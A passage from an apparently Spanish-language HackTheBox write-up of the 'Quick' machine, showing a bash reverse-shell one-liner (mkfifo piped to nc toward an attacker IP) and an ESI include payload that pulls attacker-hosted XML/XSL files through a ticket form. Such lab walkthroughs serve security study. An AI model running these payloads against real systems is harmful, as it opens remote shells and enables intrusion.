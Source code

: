Asi mismo como vamos a hacer una petición a un archivo de nuestra maquina de nombre `shell`, vamos a introducir dentro de este un codigo en bash que nos permita obtener una rever shell.

```bash
❯ cat shell
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Lo siguiente sera ejecutar el siguiente codigo en la opción de `raise ticket`, donde realizaremos una petición a los archivos previamente creados.


```xml
<esi:include src="http://10.10.16.4/a.xml" stylesheet="http://10.10.16.4/a.xsl">
</esi:include>
```

![](/assets/images/HTB/htb-writeup-Quick/quick13.PNG)


Se nos generara un codigo de ticket.

![](/assets/images/HTB/htb-writeup-Quick/quick8.PNG)
